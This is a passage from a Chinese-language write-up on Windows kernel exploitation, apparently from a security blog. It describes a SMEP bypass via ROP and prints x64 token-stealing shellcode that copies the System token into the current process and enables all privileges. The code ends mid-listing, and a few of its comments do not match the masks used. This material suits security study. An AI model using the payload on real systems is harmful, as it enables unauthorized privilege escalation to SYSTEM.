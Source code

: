 在设置`CR4.SMEP`的情况下，依靠内核分配的内存，成功运行了 shellcode，ROP 链进行了多次调用，让最后 shellcode 中的`rsp`值不好估计，并且栈的情况可能随着函数的调用将原有的值抹去，**这里先把 shellcode 换成从 TrapFrame 返回的**

[![](assets/1706090578-2035679b1953d9226e343001e2649a64.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145419-65739dea-ba85-1.png)

### C. 优化 shellcode

所以这段 shellcode 参考 shellcode 编写的 C、D 部分，加上了所有功能 Enabled 的 shellcode 片段

```plain
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax + 0x188]
    mov rax, [rax + 0xb8]     ;rax = 当前EPROCESS
    mov r9, rax               ;r9  = 当前EPROCESS
    mov rax, [rax + 0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]            ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax - 0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax               ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]            ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS

    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    ;Enable ALL
    mov rdx, [r8 + 0x70]      ;rdx = system token
    and rdx, 0xFFFFFFFFFFFFFFF0           ;system token: 消除低8位，便于解析Token
    mov rbx, [rdx + 0x40]     ;rbx = System token的Present
    mov rcx, [r9 + 0x4b8]     ;rcx = 新的EPROCESS的token
    and rcx, 0xFFFFFFFFFFFFFFF0           ;new current token: 消除低8位，便于解析Token
    mov [rcx + 0x40], rbx
    mov [rcx + 0x48], rbx

    mov     rax, gs:188h
```